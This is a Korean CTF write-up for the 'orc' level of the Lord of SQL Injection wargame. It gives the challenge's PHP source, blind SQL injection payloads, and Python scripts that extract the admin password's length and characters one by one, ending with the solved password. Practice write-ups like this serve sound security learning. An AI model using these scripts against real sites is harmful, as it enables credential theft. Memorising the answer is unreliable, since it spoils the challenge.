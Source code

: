 # orc

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 pw를 받는다.
- solve 함수를 실행시키려면, 정확한 admin pw를 알아야 한다.
&rarr; `blind-sqlinjection` 을 활용하여 구한다.

## 3. Solution
Python을 이용하여 크게 총 두 번의 sqli를 진행할 것이다.
1. pw의 길이
2. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and length(pw)=i #


우선, `length` 함수를 이용하여 길이를 구할것이다.
여기서 중요한 점은, pw조건 앞에 `id='admin'`을 추가해 줌으로서
다른 계정의 pw와 혼동되는 오류가 발생하지 않도록 하는 것이다.


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and ascii(substr(pw,i,1))=j #


pw를 한문자씩 쪼개어 ascii 코드값 비교를 할 것이다.
- 쪼개는 부분은 `substr` 함수를 이용한다.
&rarr; substr(문자열, 시작위치, 길이)
- `ascii` 함수를 통해 ascii 값을 알아낸다.

스크립트 속 변수 `i`와 `j`를 두는데, 역할은 다음과 같다.
변수명 | 값
---|---:
`i` | pw의 한 문자 index
`j` | 문자 값 비교를 위한 변수 (33 ~ 126)

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
                pw=1234' or id='admin' and ascii(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 0
pw(2) : 09
pw(3) : 095
pw(4) : 095a
pw(5) : 095a9
pw(6) : 095a98
pw(7) : 095a985
pw(8) : 095a9852
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---:
`pw` | 095a9852